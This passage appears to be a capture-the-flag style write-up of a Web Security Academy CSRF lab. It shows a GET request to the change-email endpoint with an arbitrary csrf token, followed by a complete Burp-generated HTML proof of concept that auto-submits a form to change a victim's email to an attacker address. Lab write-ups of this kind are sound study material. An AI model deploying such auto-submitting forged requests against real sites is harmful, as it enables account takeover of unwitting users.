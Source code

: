 - Change request method: GET

`GET /my-account/change-email?email=n33r9%40hacker3.com&csrf=n33r9`

![image-20250524105750805](./image/image-20250524105750805.png)

=> HTTP/2 302 Found

- Gen new CSRF payload:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a0c00d80307391e8053354f00840064.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="n33r9&#64;hacker3&#46;com" />
      <input type="hidden" name="csrf" value="n33r9" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```
